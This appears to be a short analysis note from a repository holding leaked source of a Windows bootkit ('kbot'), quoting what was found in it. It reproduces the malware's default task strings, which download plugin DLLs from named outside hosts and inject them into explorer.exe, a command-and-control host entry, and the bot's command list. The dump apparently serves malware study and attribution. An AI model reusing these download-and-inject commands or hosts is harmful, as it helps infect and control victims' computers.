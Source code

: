 #Dump

Contains some .svn files which may contain more clues to the creators etc.

Example of found so far:

MAKEDIR_LOWERCASE=e:\projects\progs\petrosjan\bootkit\kbot
OBJ_PATH=e:\projects\progs\petrosjan\bootkit\kbot

//#define	szDefaultTask	"LOAD_FILE http://shaparack.com/img/admin/bot.plug BT.DLL\r\nSET_INJECT BT.DLL explorer.exe\r\n"
//#define	szDefaultTask	"LOAD_FILE http://56tgvr.info/geter/getFile.php BT1.DLL\r\nLOAD_FILE http://56tgvr.info/geter/bot.plug BT.DLL\r\nSET_INJECT BT.DLL explorer.exe\r\n"
#define	szDefaultTask	"LOAD_FILE http://56tgvr.info/geter/getFile.php BT.DLL\r\nSET_INJECT BT.DLL explorer.exe\r\n"
//#define	szDefaultTask	"LOAD_FILE http://az2.zika.in/rt_jar/bot.plug BT.DLL\r\nSET_INJECT BT.DLL explorer.exe\r\n"
//#define	szDefaultTask	"LOAD_FILE http://security-checking.org/rt_jar/bot.plug BT.DLL\r\nSET_INJECT BT.DLL explorer.exe\r\n"

#define		KBOT_DEFAULT_HOST_LIST	" 10.30.29.241 "



// Supported commands
// Note that command names are case-sensitive, but command parameters are not.

// LOAD_FILE http://myhost.com/myfile.dll myfile32.dll	- downloads file http://myhost.com/myfile.dll and saves it to the VFS 
//	as \MYFILE32.DLL
// DELETE_FILE	myfile32.dll							- deletes file \MYFILE32.DLL from the VFS
// SET_INJECT	myfile32.dll explorer.exe iexplore.exe	- requests the KLOADER to inject \MYFILE32.DLL into the specified processes
// READ_FILE \??\C:\myfile.dll myfile.dll				- ?????? ????? ? ?????

// $Date: 2012-02-20 18:55:12 +0400 (??, 20 ??? 2012) $